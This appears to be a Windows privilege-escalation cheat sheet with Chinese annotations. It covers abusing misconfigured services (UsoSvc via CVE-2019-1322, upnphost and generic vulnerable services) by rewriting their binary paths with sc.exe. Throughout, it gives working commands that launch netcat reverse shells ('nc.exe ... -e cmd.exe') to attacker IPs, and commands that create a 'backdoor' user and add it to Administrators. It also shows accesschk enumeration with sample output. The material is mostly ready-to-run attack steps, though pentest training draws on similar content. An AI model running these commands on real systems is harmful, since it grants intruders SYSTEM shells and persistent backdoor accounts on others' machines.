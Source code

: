  #### CVE-2019-1322 UsoSvc
	条件：服务帐号
	PS C:\Windows\system32> sc.exe stop UsoSvc
	PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe qc usosvc
	[SC] QueryServiceConfig SUCCESS

	SERVICE_NAME: usosvc
	        TYPE               : 20  WIN32_SHARE_PROCESS 
	        START_TYPE         : 2   AUTO_START  (DELAYED)
	        ERROR_CONTROL      : 1   NORMAL
	        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
	        LOAD_ORDER_GROUP   : 
	        TAG                : 0
	        DISPLAY_NAME       : Update Orchestrator Service
	        DEPENDENCIES       : rpcss
	        SERVICE_START_NAME : LocalSystem

	PS C:\Windows\system32> sc.exe start UsoSvc
 #### upnphost
	>sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
	>sc config upnphost obj= ".\LocalSystem" password= ""
	>sc qc upnphost
	>sc config upnphost depend= ""
	>net start upnphost

	如果由于缺少依赖项而失败，请尝试以下命令。

	>sc config SSDPSRV start=auto
	>net start SSDPSRV
	>net stop upnphost
	>net start upnphost
	>
	>sc config upnphost depend=""
	使用accesschk
	https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
	https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe
	>accesschk.exe -uwcqv "Authenticated Users" * /accepteula
	RW SSDPSRV
	        SERVICE_ALL_ACCESS
	RW upnphost
	        SERVICE_ALL_ACCESS

	>accesschk.exe -ucqv upnphost
	upnphost
	  RW NT AUTHORITY\SYSTEM
	        SERVICE_ALL_ACCESS
	  RW BUILTIN\Administrators
	        SERVICE_ALL_ACCESS
	  RW NT AUTHORITY\Authenticated Users
	        SERVICE_ALL_ACCESS
	  RW BUILTIN\Power Users
	        SERVICE_ALL_ACCESS

	>sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
	>sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
	>sc stop <vuln-service>
	>sc start <vuln-service>
	>sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
	>sc stop <vuln-service>
	>sc start <vuln-service>